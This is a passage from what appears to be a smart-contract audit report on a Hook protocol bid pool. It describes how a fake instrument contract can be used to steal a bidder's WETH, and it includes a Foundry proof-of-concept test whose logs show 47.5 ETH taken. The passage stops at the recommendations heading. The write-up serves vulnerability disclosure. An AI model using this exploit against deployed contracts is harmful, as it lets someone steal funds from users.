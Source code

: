 3. We also call `_validateOptionProperties()` with this address, but we can specify the return values from calls to the contract however we want to ensure we pass the `validateProperty` checks.

4. Finally, we call `safeTransferFrom()` on our phony address, which will transfer nothing to the buyer.

5. We then transfer `saleProceeds` from the maker to ourselves, and the fee to the protocol. Because we set `saleProceeds` intentionally to ensure that the resulting value would be less than or equal to the user's WETH balance, these transactions succeed and we steal the assets from the user.

**Proof of Concept**

Here is a drop in test that can be added to your `HookBidPoolTest.t.sol` file to validate the finding.

In this case, I've assumed an underlying asset value of 50 ETH to take advantage of the user's account balance of 50 ETH, but other than that, used the original test setup and signing.

```solidity
function testZach__StealWithFakeInstrument() public {
    vm.warp(block.timestamp + 20 days);
    PoolOrders.Order memory order = _makeDefaultOrder();
    (Signatures.Signature memory signature, bytes32 orderHash) = _signOrder(order, bidderPkey);

    address fakeInstrument = address(new FakeInstrument());

    console.log("Victim Starting Balance: ", weth.balanceOf(address(bidder)));
    console.log("Attacker Starting Balance: ", weth.balanceOf(address(seller)));

    vm.prank(address(seller));
    bidPool.sellOption(
        order,
        signature,
        _makeAssetPriceClaim(50 ether),
        _makeOrderClaim(orderHash),
        47.5 ether,
        fakeInstrument,
        0
    );

    console.log("Victim Ending Balance: ", weth.balanceOf(address(bidder)));
    console.log("Attacker Ending Balance: ", weth.balanceOf(address(seller)));
}
```

Output:

```
Logs:
  Victim Starting Balance:  50000000000000000000
  Attacker Starting Balance:  0
  Victim Ending Balance:  125000000000000000
  Attacker Ending Balance:  47500000000000000000
```

**Recommendations**
